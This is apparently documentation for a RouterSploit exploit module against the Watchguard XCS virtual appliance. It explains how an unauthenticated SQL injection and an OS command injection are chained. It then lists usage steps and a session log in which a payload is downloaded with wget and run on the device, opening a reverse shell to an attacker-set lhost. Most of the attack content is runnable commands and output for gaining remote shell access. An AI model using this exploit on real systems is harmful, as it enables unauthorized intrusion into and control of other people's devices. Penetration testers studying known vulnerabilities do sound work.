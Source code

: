 ## Description

This module exploits two separate vulnerabilities found in the Watchguard XCS virtual appliance to gain command execution. By exploiting an unauthenticated SQL injection, a remote attacker may insert a valid web user into the appliance database, and get access to the web interface. On the other hand, a vulnerability in the web interface allows the attacker to inject operating system commands as the "nobody" user.

## Verification Steps

  1. Start `./rsf.py`
  2. Do: `use exploits/misc/watchguard/xcs_9_rce`
  3. Do: `set target[TargetIP]`
  4. Do: `run`
  5. If router is vulnerable, it should be possible to execute commands on operating system level.

  6. Do: `set payload reverse_tcp`
  7. Do: `set lhost [AttackerIP]`
  8. Do: `run`
  9. Payload is sent to device and executed providing attacker with the command shell.


## Scenarios

```
rsf > use exploits/misc/watchguard/xcs_9_rce
rsf (Watchguard XCS Remote Command Execution) > set target 192.168.1.1
[+] target => 192.168.1.1
rsf (Watchguard XCS Remote Command Execution) > run
[*] Running module exploits/misc/watchguard/xcs_9_rce...
[*] Getting a valid session...

[+] Welcome to cmd. Commands are sent to the target via the execute method.
[*] For further exploitation use 'show payloads' and 'set payload <payload>' commands.

cmd > show payloads
[*] Available payloads:

   Payload         Name                  Description
   -------         ----                  -----------
   bind_tcp        x64 Bind TCP        Creates interactive tcp bind shell for x64 architecture.
   reverse_tcp     x64 Reverse TCP     Creates interactive tcp reverse shell for x64 architecture.

cmd > set payload reverse_tcp
cmd (x64 Reverse TCP) > show options

Payload Options:

   Name        Current settings     Description
   ----        ----------------     -----------
   lhost                            Connect-back IP address
   lport       5555                 Connect-back TCP Port
   encoder                          Encoder


cmd (x64 Reverse TCP) > set lhost 192.168.1.115
lhost => 192.168.1.115
cmd (x64 Reverse TCP) > run
[*] Using wget method
[*] Using wget to download binary
[*] Executing payload on the device
[*] Waiting for reverse shell...
[*] Connection from 192.168.1.1:56981
[+] Enjoy your shell
```
